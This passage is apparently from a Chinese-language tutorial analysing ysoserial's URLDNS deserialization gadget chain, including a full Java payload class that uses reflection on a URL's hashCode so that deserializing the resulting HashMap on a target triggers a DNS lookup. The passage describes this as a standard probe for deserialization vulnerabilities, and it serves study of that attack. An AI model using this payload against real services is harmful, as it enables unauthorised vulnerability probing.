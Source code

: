 ![image-20220312234457060](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220312234457060.png)

可以看出，URL中的handler是`transient`修饰的，也就是说，在进行序列化的时候，不会将该属性序列化。那么在反序列化的时候，实际上不是反序列化的我们重写的handler。因此就可以发起请求了。真是妙蛙种子吃着妙脆角进了米奇妙妙屋妙到家了。



实际上这样就理解起来会有点麻烦，我们可以做一个小小的改进。使用修改hashCode的方式去阻止第一次的请求。

```java
package ysoserial.payloads;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import java.io.IOException;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;


/**
 * 这是一个自定义的URLDNS，只是做了简单的修改：
 * 去除了自定义URLStreamHandler的方式
 * 修改为利用反射修改hashCode以屏蔽第一次put时的dns请求。
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class MyURLDNS implements ObjectPayload<Object> {

  public Object getObject(final String url) throws Exception {
    HashMap ht = new HashMap(); // 创建一个hashMap
    URL u = new URL(url);
    // 利用反射修改URL对象的hashCode
    Reflections.setFieldValue(u,"hashCode",123456);
    ht.put(u, url);
    Reflections.setFieldValue(u, "hashCode", -1);
    return ht;
  }

  public static void main(final String[] args) throws Exception {
    PayloadRunner.run(MyURLDNS.class, args);
  }
}

```

到此，ysoserial中最简单的URLDNS就分析完成啦。实际上该链通常作为反序列化漏洞探测的常规手段。